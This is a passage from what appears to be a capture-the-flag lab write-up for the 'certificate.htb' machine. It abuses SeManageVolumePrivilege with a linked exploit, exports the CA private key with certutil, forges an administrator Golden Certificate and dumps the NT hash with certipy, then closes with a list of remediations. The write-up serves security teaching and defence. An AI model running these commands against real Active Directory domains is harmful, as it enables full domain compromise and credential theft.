Reviewing `Ryan.K`'s privilege, I see it holds the _SeManageVolumePrivilege_. The privilege is intended to grant the ability to perform routine maintenance. However, it can be used to escalate privileges and retrieve sensitive files since it bypasses file ACL checks:



To abuse this privilege, I used [this](https://github.com/CsEnox/SeManageVolumeExploit) pre-compiled exploit:



## Golden Certificate

Having the ability to access the filesystem, I can export the CA's private key - which will enable me to perform a Golden Certificate attack and compromise the domain. For that, I will use the previous enumeration output and recover the certificate's serial number:



Then export the private key into _CA.pfx_:

```powershell
certutil -exportpfx "344CB419D59054904031B340F5A43923" .\CA.pfx
```



After downloading the private key, I can [forge](https://github.com/ly4k/Certipy/wiki/07-%E2%80%90-Post%E2%80%90Exploitation#forging-golden-certificates-leveraging-a-compromised-ca-key) a Golden Certificate, using the `administrator`'s UPN and SID:

```bash
certipy-ad forge -ca-pfx CA.pfx -upn 'administrator@certificate.htb' -sid 'S-1-5-21-515537669-4223687196-3249690583-500' -crl 'ldap:///'
```



After successfully forging an administrator's certificate I will dump the `administrator`'s NT hash, fully compromising the domain:

```bash
certipy-ad auth -pfx administrator_forged.pfx -dc-ip '10.129.245.51'
```



---
# Vulnerabilities, Misconfigurations and Recommended Remediations

The below items are in no manner an exhaustive list, but rather main points that are relatively easy to address:

- **Insufficient Upload Validation** - I was able to bypass upload filters on the target host's webserver and upload a blacklisted file extension using Null-byte injection. The upload restriction bypass resulted in command execution on the target host. To remediate, enforce strict server-side file type validation - reject filenames containing Null-bytes, disable script execution within filesystem directories dedicated to user uploaded content.
- **Cleartext Credentials Within Files** - I was able to use cleartext credentials harvested from a database configuration file. Remediation needs to include purging of cleartext credentials from the filesystem, storing these in secret and password managers. Another crucial step is rotating the passwords that existed prior to their purge so they cannot be used if already harvested. 
- **Weak, Crackable Password Re-use** - a hash harvested from the webapp's compromised database was easy to crack and authenticated a domain user successfully. Password re-use should be discouraged and the use of a weak password should be restricted by the domain password policy.
- **Unprotected PCAP File** - a packet capture file containing authentication communication was accessible and was exfiltrated, resulting in Kerberos traffic parsed and hash extraction. Since the source of the file was supposed to be accessible only to the authenticated user itself, file access restriction is already applied. However, it is possible to protect PCAP files with a strong, complex password.  
- **Potentially Misconfigured ADCS - Enrollment Agent Template** - ESC3 was possible due to potentially excessive enrollment rights of `Lion.SK`. Periodically audit ADCS rights and potentially vulnerable certificate templates.
- **Potentially Excessive Privileges** - _SeManageVolumePrivilege_ was assigned to a domain user, abusing it allowed me to obtain the CA's private key and escalate privileges by creating a Golden Certificate. Periodically audit privileges, restrict, adjust and remove them based on actual requirements. Since exploitation of this privilege can bypass certain file system access protections, consider using a tiered or service user applying gMSA or similar solutions for privileged users.
